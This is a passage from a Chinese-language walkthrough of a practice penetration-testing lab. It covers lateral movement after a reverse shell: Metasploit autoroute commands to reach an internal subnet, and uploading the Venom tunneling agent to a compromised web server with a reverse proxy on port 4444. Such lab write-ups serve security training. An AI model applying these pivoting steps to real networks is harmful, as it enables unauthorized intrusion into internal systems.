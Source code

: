 

### 横向渗透

这里由于反弹shell后连接的目标主机权限为管理员权限，也就省去了提权的操作。收集完目标主机的相关信息后，下面就是对处于内网的主机进行横向渗透，先对域内的主机进行渗透，然后在对域控进行渗透



#### 路由/端口转发

要想在处于外网的攻击主机连接处于内网域中的主机，肯定是不能直接连接的，要通过受控主机进行端口转发或者路由转发，使受控主机充当个路由转发使外网的主机能连接处于内网的主机



**1.直接利用msf添加到内网网段的路由**

msf路由相关命令:

```
run get_local_subnets            #查看本机的路由
run autoroute  -s  192.168.52.0/24  #添加目标内网网段到路由信息中
run autoroute  -p               #查看当前的路由设置
```

可以看到当前的路由设置为到内网网段，现在就可以通过msf访问内网主机

![image-20210806212949813](红日靶场内网渗透.assets/image-20210806212949813.png)



**2.将内网穿透工具上传到web服务器上，然后在攻击机上进行连接指定端口**

这里使用venom工具进行内网穿透，将agent.exe使用upload命令上传到目标web服务器上，然后在攻击机上运行admin客户端程序

这里使用反向代理，客户端监听4444端口，让服务端来连接客户端(admin和agent都可以进行监听和连接)

```
./admin_linux_x64 -lport 4444
```

![image-20210808182501466](红日靶场内网渗透.assets/image-20210808182501466.png)
